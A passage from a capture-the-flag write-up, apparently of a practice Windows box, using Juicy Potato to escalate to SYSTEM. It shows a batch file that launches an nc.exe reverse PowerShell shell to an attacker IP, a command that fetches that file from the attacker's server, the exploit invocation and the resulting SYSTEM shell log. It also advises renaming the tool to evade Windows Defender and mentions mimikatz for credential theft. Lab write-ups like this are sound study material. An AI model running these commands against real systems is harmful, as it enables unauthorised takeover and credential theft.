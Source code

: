 I found this a little cumbersome, so I rewrote the `GetCLSID.ps1` script to output the results to the console - instead of creating a folder and writing two files. This seems like a better approach in a real-world pentest and is more convenient. The script is available in the `exploits` folder.

Next, make a file `rev.bat` file to start a reverse shell back to the attacker's machine. This is the program we will as Juicy Potato to execute.

```none
printf 'START C:\\inetpub\\wwwroot\\wordpress\\wp-content\\themes\\twentynineteen\\nc.exe -e powershell.exe 10.10.14.51 9001' > rev.bat
```

Note that we should already have a `nc.exe` file on the server from earlier. Start the usual Python `http.server` and, from the target, fetch the batch file.

```none
Invoke-WebRequest -Uri http://10.10.14.51:8000/rev.bat -OutFile rev.bat
```

We are finally ready, run Juicy Potato with the required arguments.

```none
cmd /c "js.exe -p rev.bat -l 9001 -t * -c {42CBFAA7-A4A7-47BB-B422-BD10E9D02700}"
```

Success! A reverse shell with SYSTEM access.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.51] from (UNKNOWN) [10.10.10.29] 55870
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

I kind of went around in circles getting Juicy Potato to work. I was a little tired and missed some obvious stuff, but still worth documenting.

- Watch out for backslashes in the `rev.bat` script. I ended up using `printf` and single quotes to populate the `rev.bat` file, but other solutions such as `echo` may behave differently. Check the file before uploading!
- The `rev.bat` script must have the full path (AFAIK) for the `nc.exe` binary.
- Batch scripts are weird and should have `START` before a command. Weird!
- Rename `JuicyPotato.exe` to something else, like `js.exe`. Otherwise, it might get caught by Windows Defender.
- I kept getting errors about arguments when running directly from PowerShell. Either spawn a `cmd.exe` or wrap the Juicy Potato in `cmd /c "<juicy-command-here>"` - just like I did in my writeup.

Done! And I can close 50 browser tabs!

## Post Exploitation

Not going to lie! Missed the important creds in the post-exploitation phase, and came back to get access to the machine. In the official writeup, they used `mimikatz` to extract some credentials. Did the usual upload of the file.
